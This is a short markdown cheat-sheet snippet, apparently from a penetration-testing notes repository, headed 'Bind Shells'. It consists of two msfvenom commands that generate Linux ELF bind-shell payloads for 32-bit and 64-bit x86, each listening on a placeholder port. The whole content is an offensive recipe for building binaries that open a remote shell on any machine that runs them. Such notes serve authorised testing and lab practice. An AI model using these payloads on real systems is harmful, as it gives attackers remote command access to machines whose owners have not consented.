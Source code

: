 # Bind Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64`